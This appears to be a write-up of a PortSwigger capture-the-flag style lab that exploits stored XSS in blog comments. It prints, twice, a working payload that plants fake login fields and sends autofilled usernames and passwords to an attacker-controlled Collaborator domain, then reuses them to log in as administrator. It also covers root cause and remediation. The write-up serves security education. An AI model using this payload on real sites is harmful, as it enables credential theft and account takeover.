

## Metadata

- **Difficulty:** Practitioner
- **Category:** Cross-site Scripting (XSS)
- **Lab URL:** [Lab: Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)
- **Date Solved:** 23/7/2026
## Vulnerability Summary

The app contains an XSS vulnerability in the blog comment functionality, specifically in the comment body, where user supplied input is reflected unsanitized. Using this as an injection point to execute `JavaScript`, we can inject a script that trigger the victim's password manager to automatically fill the injected credentials fields whenever the victim view the comments, exfiltrating their username and password to our Burp Collaborator domain.
## Reconnaissance

- Entering a basic payload (`<script>alert(1)</script>`) in the comment's body and submitting it, we see that as the app loads the comments, the `alert()` function is invoked, and a dialogue box appears. We can confirm that this is a possible injection point.
## Exploitation Steps

1. Navigate to any post, e.g. `url/post?postId=1`.
2. In Burp Professional, navigate to the Collaborator tab and click "Copy to clipboard" to generate a Burp Collaborator payload. It will be in the form of `your-domain-id.oastify.com`.
3. In the comment's body, type in this script:
```js
<input name=username id=fake_user>
<input type=password name=password onchange="if(this.value.length)fetch('https://your-domain-id.oastify.com',{
method: 'POST',
body:fake_user.value + ' - ' + this.value
});">
```
The rest of the fields can be filled randomly. After that, submit comment, and click back to blog in the "comment submitted successfully" screen.
4. In Burp Professional - Collaborator tab, click poll now. Look for a HTTP request received by your Collaborator server that comes from a **different** source IP address than yours. In the "Request to Collaborator" tab, you should see the username and password of the victim as follows:

5. Navigate to `url/login` and log in with the credentials above. You should be logged in as `administrator`, and lab is solved.
## Payload Used

```js
<input name=username id=fake_user>
<input type=password name=password onchange="if(this.value.length)fetch('https://your-domain-id.oastify.com',{
method: 'POST',
body:fake_user.value + ' - ' + this.value
});">
```
The script works by abusing browser password manager behavior. Password managers look for specific field signatures (like `name=username` and `type=password`) and autofill them. The `onchange` event fires when the field's value is modified and focus is lost (the bot interacts with the page, triggering the event). The credentials are concatenated and sent to the Collaborator domain.
## Root Cause

The app takes untrusted user input (the comment body) and reflects it directly into the HTML DOM when rendering the blog post. The developer failed to implement context-aware HTML entity encoding, allowing the browser to interpret the input as executable `JavaScript` rather than plain text.
## Remediation

- All user-supplied data must be strictly encoded before being rendered in the browser. For HTML body context, characters with special meaning (`<`, `>`, `&`, `"`, `'`) must be converted to their corresponding safe HTML entities (e.g., `<` becomes `&lt;`).
- Deploy a strict CSP via HTTP response headers to restrict the sources from which scripts can be executed and the destinations to which data can be sent (e.g., blocking outbound `fetch` requests to unauthorized domains).